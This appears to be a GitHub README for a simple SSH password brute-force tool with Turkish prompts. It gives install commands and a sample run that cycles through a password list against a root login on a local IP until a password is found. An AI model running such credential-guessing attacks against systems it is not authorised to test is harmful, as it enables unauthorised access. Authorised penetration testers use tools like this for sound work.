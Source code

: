 # SSH-Brute-Force-Tool
 Simple SSH Brute Force Tool

## Requirements
paramiko==2.7.2<html><br></html>
termcolor==1.1.0

## [+] Install
```
git clone https://github.com/OctopusTR/SSH-Brute-Force-Tool && cd SSH-Brute-Force-Tool
pip3 install -r requirements.txt
```
## [+] Usage 
```
┌──(root㉿octopus)-[~]
└─# python3 sshbrute.py

[+] Hedef Adres: 192.168.1.11
[+] SSH Kullanıcı Adı: root
[*] Parola Dosyası: passwords.txt


[-] Başarısız: 12315
[-] Başarısız: 14334253
[-] Başarısız: 33345435
[-] Başarısız: kfskfksfs
[-] Başarısız: ddkskskd
[-] Başarısız: 14334253
[-] Başarısız: 5464645
[-] Başarısız: 33345435
[-] Başarısız: 675675
[-] Başarısız: ddkskskd
[-] Başarısız: 5464645
[-] Başarısız: 675675
[+] Parola Bulundu: Er83x2vkWdgEw6tT
```
